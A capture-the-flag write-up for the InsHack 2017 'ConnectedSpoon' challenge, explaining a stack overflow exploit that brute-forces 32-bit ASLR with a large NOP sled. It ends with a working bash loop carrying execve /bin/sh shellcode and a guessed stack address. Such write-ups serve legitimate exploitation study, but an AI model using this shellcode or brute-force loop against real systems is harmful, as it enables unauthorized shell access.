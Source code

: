 ```yaml
---
title: "ConnectedSpoon | InsHack 2017"
tags: ["pwn", "stack overflow", "shellcode", "ASLR"]
points: 150
solves: 42
---
```


Who knew bruteforcing ASLR on 32 bit was so easy!

## Checksec
```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX disabled       (<- we CAN use shellcode)
PIE:      No PIE
ASLR:     ENABLED           (<- we CANNOT reliably know where the stack is)
```

## Solution
This is very similar to crazy-minitel, so I will assume you have read that [writeup](CrazyMinitel), and just focus on what's new: `ASLR`! One other change from crazy-minitel is that we have a larger buffer, meaning we can have a bigger nop sled.

With that in mind, lets just bruteforce ASLR. From running the program in gdb what I found that:
 - The first byte `\xbf` never changed. So that's **8 bits** we don't need to guess.
 - We have a NOP SLED of around 2000 bytes, and, since `2^11 = 2048`, we can get another free **11 bits**.

This leaves use with `32-8-11 = 13bits` to bruteforce. This would mean on average around **8192 attempts** to guess correctly the stack value, which would certainly be doable, but I got a shell after only ~75 trys, which means either my math is wrong or I was just very lucky.

I launched this little script to bruteforce the ASLR, went to eat something, and when I got back I had a shell waiting for me. :)
```bash
while :
do
    ~/vuln $(python -c "print '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80'.rjust(1950, '\x90') + 'A'*(2012-1950) + '\xb0\xba\xad\xbf'")
done
```